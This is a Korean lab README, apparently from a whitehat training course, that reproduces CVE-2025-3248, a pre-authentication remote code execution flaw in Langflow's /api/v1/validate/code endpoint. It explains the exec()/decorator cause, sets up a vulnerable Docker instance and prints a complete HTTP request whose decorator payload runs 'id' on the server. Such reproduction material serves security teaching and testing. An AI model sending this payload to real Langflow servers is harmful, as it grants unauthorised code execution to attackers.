


#  Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

> 화이트햇 스쿨 3기 5반 - [유진우 (@jin182)](https://github.com/jin182)

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, 사용자는 웹 기반의 Python 인터페이스를 통해 시각적으로 AI 파이프라인을 구성할 수 있습니다.

버전 1.3.0 미만의 Langflow에는 심각한 인증 우회 원격 코드 실행(RCE) 취약점인 CVE-2025-3248이 존재합니다.
취약한 엔드포인트 /api/v1/validate/code는 사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, 함수 정의를 exec()를 이용해 실행함으로써 유효성을 검사합니다.
하지만 Python에서는 데코레이터나 기본 인자 값도 함수 정의 시점에 실행되기 때문에, 이를 악용해 임의의 코드 실행이 가능합니다.

공격자는 악성 데코레이터 또는 기본 인자 표현식을 포함한 특수 제작된 함수 정의를 이 API에 전송함으로써, 서버 사용자 권한으로 코드를 실행할 수 있습니다.

참고자료:
- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

환경 구성
아래 명령어를 실행하면 Langflow 1.2.0 서버가 Docker로 실행됩니다:

```
docker compose up -d
```



서버가 실행되면, 웹 인터페이스는 `http://your-ip:7860`에서 접근할 수 있으며
기본 로그인 정보는 administrator:vulhub입니다.



취약점 재현
다음은 이 취약점을 재현하는 방법입니다.
/api/v1/validate/code 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송하면 됩니다.
아래 예시는 데코레이터를 통해 서버에서 id 명령을 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```